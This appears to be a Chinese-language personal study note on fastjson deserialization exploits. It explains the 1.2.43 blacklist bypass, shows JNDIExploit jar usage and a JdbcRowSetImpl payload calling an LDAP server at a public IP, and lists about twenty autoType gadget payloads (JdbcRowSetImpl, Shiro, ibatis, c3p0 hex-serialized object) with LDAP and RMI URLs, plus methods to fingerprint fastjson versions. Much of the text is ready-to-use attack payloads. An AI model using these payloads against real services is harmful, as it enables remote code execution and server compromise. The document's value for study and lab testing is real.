1 2 3 4 5 6 7 8 9 10 ( ( ( ( BASIC ^ className.charAt(0 ) ) * PRIME ) ^ className.charAt(className.length() - 1 ) ) * PRIME == 0x9198507b5af98f0L )
当className是”L”和”;”包裹的情况下，
BASIC ^ className.charAt(0) 的结果是 -3750763034362895511
(BASIC ^ className.charAt(0)) * PRIME 的结果是 -5808516191223665813
((BASIC ^ className.charAt(0)) * PRIME) ^ className.charAt(className.length() - 1) 的结果是 -5808516191223665840
((BASIC ^ className.charAt(0)) * PRIME) ^ className.charAt(className.length() - 1) * PRIME 的结果是 655701488918567152
老实说我看不太明白。查了一下这玩意叫 FNV-1a 算法，这段代码是为了使用 FNV-1a 哈希算法计算类名的哈希值，并检查其是否等于预先定义的常量。
1.2.43 影响版本：1.2.25 <= fastjson <= 1.2.43
这个版本主要是修复上一个版本中双写绕过的问题
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 if ((((BASIC ^ className.charAt(0 )) * PRIME) ^ className.charAt(className.length() - 1 )) * PRIME == 0x9198507b5af98f0L ) { if ((((BASIC ^ className.charAt(0 )) * PRIME) ^ className.charAt(1 )) * PRIME == 0x9195c07b5af5345L ) { throw new JSONException("autoType is not support. " + typeName); } className = className.substring(1 , className.length() - 1 ); }
由于在1.2.25的绕过中，用到了”L”和”;”，但是在他之前还有一个对”[“的处理，所以那个也可以用在这里。
利用： vulfocus环境 使用的JNDIExploit-1.4-SNAPSHOT.jar 工具，github项目地址已经删了：https://github.com/WhiteHSBG/JNDIExploit
不过还好本地下了一份，文件md5为：0fb1809ac6a9436836717ffb207ee0c9
sha1为：ea7bc0d12704d7ba145ee4318d374c125b2884d1
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 4x.1xx.1xx.1xx,后面的地址要跟vps的地址，不能是0.0.0.0
payload：
1 2 3 4 5 6 7 8 9 10 11 { "name":{ "@type":"java.lang.Class", "val":"com.sun.rowset.JdbcRowSetImpl" }, "x":{ "@type":"com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"ldap://42.193.178.194:1389/Basic/TomcatEcho", "autoCommit":true } }

一些笔记 一批payload 不过老实说没看明白怎么用的，test0-19不知道什么意思
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 {"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry": "ldap://test0.127.0.0.1:1389/Exploit"} {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://test1.127.0.0.1:1389/Exploit", "autoCommit":true} {"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://test2.127.0.0.1:1389/Exploit", "autoCommit":true} {"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://test3.127.0.0.1:1389/Exploit", "autoCommit":true} {"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://test4.127.0.0.1:1389/Exploit", "autoCommit":true} {"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://test5.127.0.0.1:1389/Exploit"}} { "a": { "@type": "java.lang.Class", "val": "com.sun.rowset.JdbcRowSetImpl" }, "b": { "@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://test6.127.0.0.1:1389/Exploit", "autoCommit": true }} {"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://test7.127.0.0.1:1389/Exploit"}"; {"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://test8.127.0.0.1:1389/Exploit"} {"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://test9.127.0.0.1:1389/Exploit"} {"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://test10.127.0.0.1:1389/Exploit"} {"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://test11.127.0.0.1:1389/Exploit"}} {"@type":"java.net.Inet4Address", "val":"test12.127.0.0.1:1389"} {"@type":"java.net.Inet6Address", "val":"test13.127.0.0.1:1389"} {"@type":"java.net.InetSocketAddress"{"address":, "val":"test14.127.0.0.1:1389"}} {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"test15.127.0.0.1:1389"}}""} {{"@type":"java.net.URL", "val":"test16.127.0.0.1:1389"}:"aaa"} Set[{"@type":"java.net.URL", "val":"test17.127.0.0.1:1389"}] Set[{"@type":"java.net.URL", "val":"test18.127.0.0.1:1389"} {{"@type":"java.net.URL", "val":"test19.127.0.0.1:1389"}:0 {"rand1":{"@type":"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource","userOverridesAsString":HexAsciiSerializedMap:aced00057372003d636f6d2e6d6368616e67652e76322e6e616d696e672e5265666572656e6365496e6469726563746f72245265666572656e636553657269616c697a6564621985d0d12ac2130200044c000b636f6e746578744e616d657400134c6a617661782f6e616d696e672f4e616d653b4c0003656e767400154c6a6176612f7574696c2f486173687461626c653b4c00046e616d6571007e00014c00097265666572656e63657400184c6a617661782f6e616d696e672f5265666572656e63653b7870707070737200166a617661782e6e616d696e672e5265666572656e6365e8c69ea2a8e98d090200044c000561646472737400124c6a6176612f7574696c2f566563746f723b4c000c636c617373466163746f72797400124c6a6176612f6c616e672f537472696e673b4c0014636c617373466163746f72794c6f636174696f6e71007e00074c0009636c6173734e616d6571007e00077870737200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78700000000000000000757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000a70707070707070707070787400074578706c6f6974740016687474703a2f2f6f74686572302e3132372e302e302e313a313338392f740003466f6f; }} 不出网打法: {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true} {"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}
判断目标fastjson版本 1.判断是否是其他json
原理：jackson不允许存在不相关的键值，fastjson则是允许的
如原json如下。
1 {"pageNumber":1,"pageSize":1}
加上一个不相关的键值
1 {"pageNumber":1,"pageSize":1,"test":1}
jackson就会报错，fastjson则不会，而是和之前一模一样。
如果对方什么都不回显，那就只能dnslog或者时间延迟了。
2.通过报错消息
1 {"@type":"java.lang.AutoCloseable"a["test":1]
3.无报错信息，判断版本区间
先简单总结一下fastjson的可利用版本。
<1.2.24，没有任何限制。
1.2.24-1.2.47，java.lang.Class绕过。
1.2.48-1.2.68，java.lang.AutoCloseable绕过。
1.2.70-1.2.72，无链版本
1.2.73-1.2.80，java.lang.Exception绕过。
1.2.83，无漏洞版本
参考 https://tttang.com/archive/1579/#toc__2
https://www.bilibili.com/video/BV1bD4y117Qh/
https://www.cnblogs.com/nice0e3/p/14601670.html
https://www.anquanke.com/post/id/240446#h3-6
https://javasec.org/java-vuls/FastJson.html
盲判断目标的fastjson版本：https://mp.weixin.qq.com/s/jbkN86qq9JxkGNOhwv9nxA
fastjson反序列化漏洞区分版本号的方法总结：https://blog.csdn.net/m0_71692682/article/details/125814861
fastjson 获取精确版本号的方法：https://b1ue.cn/archives/402.html